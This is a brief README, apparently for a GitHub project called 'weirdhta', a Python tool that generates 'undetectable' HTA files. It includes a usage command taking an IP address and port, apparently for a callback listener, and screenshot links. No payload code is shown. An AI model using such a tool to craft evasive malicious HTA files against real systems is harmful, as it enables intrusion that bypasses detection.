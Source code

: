 # weirdhta
A Python-based basic tool for creating undetectable hta file.


```
python3 weirdhta.py 10.10.10.10 4444
```

### Screenshots
Running via browser:


![Script Image](https://i.imgur.com/LCo3Ivb.png)

![Script Image](https://i.imgur.com/oE0MtYO.png)

![Script Image](https://i.imgur.com/5DtxvKi.png)


Running via cli:

![](https://i.imgur.com/xYfALz2.gif)
